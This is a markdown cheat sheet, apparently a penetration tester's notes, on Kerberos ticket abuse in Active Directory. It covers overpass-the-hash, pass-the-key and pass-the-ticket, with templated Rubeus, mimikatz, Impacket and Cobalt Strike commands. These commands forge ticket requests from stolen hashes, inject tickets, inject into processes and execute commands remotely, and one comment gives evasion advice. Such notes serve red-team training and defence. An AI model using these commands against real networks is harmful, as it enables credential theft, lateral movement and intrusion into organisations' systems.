 # Active Directory - Kerberos tickets usage

### Overview

`Kerberos` is an authentication protocol used within Active Directory that rely
on the use of tickets to identify users and grant access to domain resources.
To do so, `Kerberos` implements two type of tickets, issued by two distinct
services of the `Key Distribution Center (KDC)`:
  - `Ticket-Granting Ticket (TGT)`, obtained from the `Authentication Service
  (AS)`.
  - `service tickets`, obtained from the `Ticket-Granting Service (TGS)`.

A valid `TGT` is necessary in order to request `service tickets`, which in turn
grant access to service accounts (user or machine domain accounts that have a
`ServicePrincipalName (SPN)`).

`Overpass-the-hash` / `Pass the Key (PTK)` are the actions of using,
respectively, the `NTLM` hash or the `Kerberos` secrets (`RC4` key,
corresponding to the `NTLM hash`, or the `AES 128/256 bits` keys) of an user to
request a `Kerberos` `TGT`.

`Pass-the-ticket (PtT)` is the action of directly using `Kerberos` tickets
(`TGTs` or `service tickets`) with out a request to the `KDC`. On Windows
systems, the tickets can be directly injected in the current logon session
while on Linux systems `Kerberos` tickets file can be provided to utilities
supporting the `Kerberos` authentication.

### Overpass-the-hash / Pass the Key (PTK)

The `Rubeus`'s `asktgt` module or the `Impacket`'s `getTGT.py` Python script
can be used to request `TGTs` using an user's password, `NTLM` hash, or
`Kerberos` secrets.

```
# ptt: Directly injects the received TGT in the current logon session. The current logon session TGT will be overwritten.
# In any case, the received TGT, encoded in base64, will be printed (KRB-CRED format).
Rubeus.exe asktgt /user:<USERNAME> [/password:<PASSWORD> | /rc4:<NTLM_HASH> | /aes128:<AES_128BITS_KEY> | /aes256:<AES_256BITS_KEY>] /ptt
Rubeus.exe asktgt /dc:<DC_IP | DC_HOSTNAME> /domain:<DOMAIN> /user:<USERNAME> [/password:<PASSWORD> | /rc4:<NTLM_HASH> | /aes128:<AES_128BITS_KEY> | /aes256:<AES_256BITS_KEY>] /ptt

# The received TGT will be exported to a file in the credential cache format.
python getTGT.py [-dc-ip <DC_IP>] <DOMAIN>/<USERNAME>:[<PASSWORD>]
python getTGT.py [-dc-ip <DC_IP>] -hashes ":<NTLM>" <DOMAIN>/<USERNAME>
# Recommended if possible in a covert scenario, as the AES keys are used by default by Microsoft.
python getTGT.py [-dc-ip <DC_IP>] -aesKey <AES_128BITS_KEY | AES_256BITS_KEY> <DOMAIN>/<USERNAME>
```

### Pass-the-ticket (PtT)

###### [Windows / Linux] Direct requests of service tickets

On Windows, the `Rubeus`'s `asktgs` module can can be used to request
`service tickets` using a valid `TGT`:

```
# ptt: Directly injects the received service ticket in the current logon session.

Rubeus.exe asktgs /ticket:<TGT_BASE64 | TGT_KIRBI_FILE_PATH> /service:<TARGET_SERVICE_SPN | TARGET_SERVICES_SPN> /ptt
```

###### [Windows] Injection into the current session

`Kerberos` tickets, in the credential format `KRB_CRED` (`KIRBI` file), can be
injected into the current logon session using `mimikatz` or `Rubeus`.

Both utilities leverage the Windows
`LsaCallAuthenticationPackage/KerbSubmitTicketMessage` API and will overwrite
the current logon session tickets.

```
# If necessary, decodes a ticket in base64 (from Rubeus for example) to the KRB_CRED format.
cat <TICKET_BASE64_FILE_PATH> | tr -d "[:space:]" | base64 --decode > <TICKET_KIRBI_FILE_PATH>

# Injects into memory a ticket in the KRB_CRED format.
Rubeus.exe ptt /ticket:<TICKET_BASE64 | TICKET_BASE64_FILE_PATH | TICKET_KIRBI_FILE_PATH>
mimikatz.exe "kerberos::ptt <TICKET_KIRBI_FILE_PATH>" exit
```

`Cobalt Strike` 's `make_token` and `kerberos_ticket_use` `beacon` commands may
be used to inject tickets with out overwriting the ones cached in the current
logon session:

```
# Requires elevated privileges.
beacon> make_token <DOMAIN>\<USERNAME> "PasswordNotRequired"
beacon> kerberos_ticket_use <C2_TICKET_KIRBI_FILE_PATH>

# Does not requires a elevated privileges. Create a new beacon in a sacrificial process to protect the current beacon logon session tickets.
# The use of the make_token command is still necessary as both beacon share the same logon session.
original_beacon> make_token <DOMAIN>\<USERNAME> "PasswordNotRequired"
original_beacon> run <C:\Windows\System32\cmd.exe | BINARY_PATH>
original_beacon> ps
original_beacon> inject <NEW_PROCESS_PID> <x86 | x64> <LISTENER>
new_beacon> kerberos_ticket_use <C2_TICKET_KIRBI_FILE_PATH>

# Reverts the logon session created using the make_token command, so the original logon session's tickets are restored.
beacon | original_beacon> rev2self
```

The `Kerberos` tickets cached in the current logon session can be listed using
the Windows built-in `klist` utility, `Rubeus`'s `klist` module, or
`mimikatz`'s `kerberos::list` command:

```
klist

Rubeus.exe klist

mimikatz.exe "kerberos::list" exit
mimikatz.exe "kerberos::list /export" exit
```

###### [Linux] Credential cache (ccache)

`Kerberos` tickets can be converted from the `KRB_CRED` format to the
`credential cache (ccache)` format to be used with, among others, the
`Impacket`'s Python utilities. If a `TGT` is provided, the `Impacket`'s
utilities will try to obtain the necessary service tickets through request to
the `KDC`.

Note that `impackets` utilities can only make use of a single `Kerberos
tickets` at a time, which limits the possible usage of the utilities with
`service tickets`.

Refer to the `[Windows] Lateral movements` for more information on how to
leverage the `Impacket` suite for lateral movements in a Windows environment.

```
# If necessary, decodes a ticket in base64 (from Rubeus for example) to the KRB_CRED format.
cat <TICKET_BASE64_FILE_PATH> | tr -d "[:space:]" | base64 --decode > <TICKET_KIRBI_FILE_PATH>

# If necessary, converts the TGT from KRB_CRED to ccache.
ticketConverter.py  <TICKET_KIRBI_FILE_PATH> <TICKET_CCACHE_FILE_PATH>

# Loads the ticket from the specified file.
export KRB5CCNAME=<TICKET_CCACHE_FILE_PATH>

# Loads all the tickets in the specified directory. The tickets filename must follow the filename tkt*.
# Unfortunately loading Kerberos tickets from a directory is not a wildy supported feature.
export KRB5CCNAME=DIR:<TICKETS_CCACHE_DIR_PATH>

# Usage of the TGT through Impacket's utilities.
psexec.py -k -no-pass -dc-ip <DC_IP> <HOSTNAME> [<COMMAND> <COMMAND_ARGS>]
smbexec.py [-service-name <SERVICE_NAME>] -k -no-pass -dc-ip <DC_IP> <HOSTNAME> [<COMMAND> <COMMAND_ARGS>]
wmiexec.py [-service-name <SERVICE_NAME>] -k -no-pass -dc-ip <DC_IP> <HOSTNAME> [<COMMAND> <COMMAND_ARGS>]
[...]
```

The `klist` utility form the `krb5-user` (`Debian` based distro) or `krb5`
package may be used to list the current tickets:

```
klist -A
```
